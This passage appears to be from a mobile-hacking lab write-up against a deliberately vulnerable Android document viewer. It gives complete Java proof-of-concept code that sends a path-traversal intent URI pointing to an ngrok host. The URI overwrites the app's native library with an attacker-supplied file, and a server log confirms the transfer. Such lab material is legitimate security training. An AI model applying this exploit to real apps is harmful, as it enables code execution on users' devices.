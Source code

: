 We create out poc to start the app with the malicious intent

```java
package com.example.documentviewerpoc;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        Intent intent = new Intent();
        intent.setAction(Intent.ACTION_VIEW);
        intent.setData(Uri.parse("https://dcd8-41-90-184-70.ngrok-free.app/..%2f..%2f..%2f..%2f..%2fdata%2fuser%2f0%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2fx86%2flibdocviewer_pro.so"));
        intent.setClassName("com.mobilehackinglab.documentviewer", "com.mobilehackinglab.documentviewer.MainActivity");

        button.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                startActivity(intent);
            }
        });
    }
}
```

After clicking the button we get this to confirm that our payload was transferred successfully

```shell
python serve.py
Decoded Path: ../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so
127.0.0.1 - - [04/Dec/2024 14:17:27] "GET /..%2f..%2f..%2f..%2f..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86%2Flibdocviewer_pro.so HTTP/1.1" 200 -
```
